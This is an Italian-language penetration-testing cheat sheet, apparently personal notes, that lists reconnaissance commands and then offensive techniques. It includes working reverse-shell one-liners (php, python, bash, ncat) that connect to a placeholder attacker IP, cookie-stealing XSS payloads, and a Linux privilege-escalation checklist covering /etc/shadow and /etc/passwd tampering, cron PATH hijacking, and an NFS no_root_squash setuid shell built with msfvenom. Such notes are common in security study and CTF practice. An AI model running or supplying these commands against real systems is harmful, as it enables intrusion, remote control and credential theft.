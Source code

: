 # LISTA COMANDI UTILI

1. ###### FIND
   è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

2. ###### SSH
   è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

4. ###### SCP
   è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

5. ###### HOST
   è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

6. ###### WHOIS
   è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

7. ###### NC
    utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
- ```nc -l 1234```: inizia ad ascoltare nella porta 1234
- ```nc 127.0.0.1 1234```: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


# SHELLS
### REVERSE SHELL
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega, quindi

#### ATTACCANTE:

```
ncat -lvnp 4242
```

#### VITTIMA:

##### php
```
php -r '$sock=fsockopen("IP_ATTACCANTE",4242);shell_exec("sh <&3 >&3 2>&3");'
```

##### python3
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ATTACCANTE",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

##### bash

```
bash -i >& /dev/tcp/IP_ATTACCANTE/4242 0>&1
```

```
0<&196;exec 196<>/dev/tcp/IP_ATTACCANTE/4242; sh <&196 >&196 2>&196
```

```
/bin/bash -l > /dev/tcp/IP_ATTACCANTE/4242 0<&1 2>&1
```

##### netcat
```
ncat 10.0.0.1 4242 -e /bin/bash
```


# XSS
```<script>alert(document.cookie)</script>``` è quello che mediamente mi può interessare per idSession

1. prova a metterlo nella URL se puoi dopo il ?
2. prova a metterlo in un button come `onclick=alert(document.cookie)`
3. prova a metterlo nella URL dopo una GET/POST con `&<script>alert(document.cookie)</script>`


# PRIVILAGE ESCALATION

La guida che segue è un po' disordinata, è più una lista di metodi da provare che altro. 

0. **CALDAMENTE CONSIGLIATO** Runna [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) dopo averlo scaricato sulla macchina vittima
1. Controlla se il file /etc/shadow è readable, cracka la hash del root
2. Controlla se il file /etc/shadow è writable, genera una nuova password sha-512 `mkpasswd -m sha-512 newpasswordhere` e sostituiscila a root
3. Controlla se il file /etc/passwd è writable, genera una password con `openssl passwd newpasswordhere` copia la riga iniziale di root alla fine di passwd, sostituisici il primo `root:x` con `newroot:password`, cambia utente in newroot
4. Usa `sudo -l` e vedi che comandi puoi usare come root, usa [GTFOBins](https://gtfobins.github.io/) per vedere quali permettono di fare privilage escalation
5. Guarda `cat /etc/crontab`, vedi se ci sono programmi che vengono eseguiti come root e prova a modificarli per avere shell o qualcosa di simile
6. Guarda `cat /etc/crontab`, vedi il PATH e i programmi che vengono eseguiti come root, crea un programma con lo stesso nome di quello root nella prima cartella in ordine che appare in PATH che ti possa permettere di avere una shell o qualcosa di simile
7. Guarda `cat /etc/crontab`, vedi se tra  i programmi root si sono WILDCARDS \*, poi usa gli exploit adatti
8. Guarda `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`, cerca se ci sono file soggetti ad exploit da [Exploit DB](https://www.exploit-db.com/)
9. f
10. Guarda se magari nella cronologia `cat ~/.*history | less` ha per sbaglio messo la password
11. Cerca se c'è la chiave SSH da qualche parte, copiala in un file root_key, `chmod 600 root_key`, e poi prova a connetterti con questa chiave `ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@IP_VITTIMA`
12. Guarda `cat /etc/exports`, se ci sono opzioni `no_root_squash` allora puoi usare il `mount` come root per avere privilegi root nella macchina vittima. 
		 ATTACCANTE (es. su /tmp vulnerabile a no_root_squashing):
		`mkdir /tmp/nfs` 
		`mount -o rw,vers=3 IP_VITTIMA(credo):/tmp /tmp/nfs`
		`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
		`chmod +xs /tmp/nfs/shell.elf`
		VITTIMA:
		`/tmp/shell.elf`
13. Come ultima istanza, prova un Dirty COW, anche se meglio di no
